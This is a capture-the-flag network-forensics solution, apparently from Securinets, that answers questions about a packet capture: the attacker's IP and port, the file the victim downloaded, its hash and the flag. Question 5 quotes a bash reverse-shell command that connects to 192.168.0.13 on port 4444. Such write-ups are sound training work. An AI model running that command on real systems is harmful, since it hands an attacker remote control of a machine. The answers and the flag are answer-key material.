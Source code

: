 ## solver


1- How many packets are present in the network capture? 
835
![alt text](image.png)
2- What was the name of the file downloaded by the victim?
revOXM06
![alt text](image-1.png)
<br>
the name is in the path

3- What is the ip of the attacker? you can filter with HTTP to see that ha victim download the file revOXM06 from this IP
<br>
192.168.0.13

4- What port number did the attacker use to establish the HTTP connection?
8000

5- What commands were executed to get the reverse shell? you can find it in the content of the file revOXM06
<br>
bash -i >& /dev/tcp/192.168.0.13/4444 0>&1

6- Can you determine the date when the file was downloaded by the victim? format (DDD, XX XXX YYYY HH:MM:HH GMT)
Sun, 11 Feb 2024 22:02:13 GMT
7- What is the sha256 of the downloaded file ? just export the file and use (sha256sum revOXM06)
<br>
0b0c038a700d95744a1c70c322846b4d66438eda3af4acfd353d9532a9b19945

8- What is the content of the secret file? follow the tcp stream between the attacker and the victim
![alt text](image-2.png)
Securinets{_I_10vE_Wire5hArK}

